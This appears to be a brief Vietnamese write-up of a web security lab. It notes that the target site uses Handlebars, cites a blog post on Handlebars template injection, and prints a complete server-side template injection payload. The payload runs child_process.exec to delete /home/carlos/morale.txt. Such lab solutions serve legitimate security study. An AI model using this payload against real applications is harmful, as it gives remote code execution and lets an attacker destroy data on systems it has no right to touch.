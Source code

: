 - Trang web đã dùng `node_modules/handlebars`

- Tôi đã đọc một bài blog sau [**Blog**](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
